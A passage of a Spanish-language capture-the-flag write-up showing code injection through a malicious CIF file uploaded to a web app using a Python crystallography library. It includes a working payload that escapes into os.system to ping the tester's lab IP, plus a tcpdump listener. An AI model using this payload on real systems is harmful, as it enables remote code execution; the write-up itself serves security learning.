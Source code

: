 Podemos subirlo y cargarlo y seguimos con ese error 500. Según el artículo es normal, ya que la librería al intentar interpretar el archivo CIF lanza una excepción.
![Write-up Image](images/Screenshot_8.png)

Pero no recibimos ninguna traza.
```console
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Vamos a coger la línea donde se explota la vulnerabilidad de la función `JonesFaithfulTransformation.from_transformation_str()`

Que son las siguientes.
![Write-up Image](images/Screenshot_9.png)

Y a partir del archivo de ejemplo que si lo interpreta correctamente, vamos a añadirlo.

```python
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.16.15");0,0,0'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
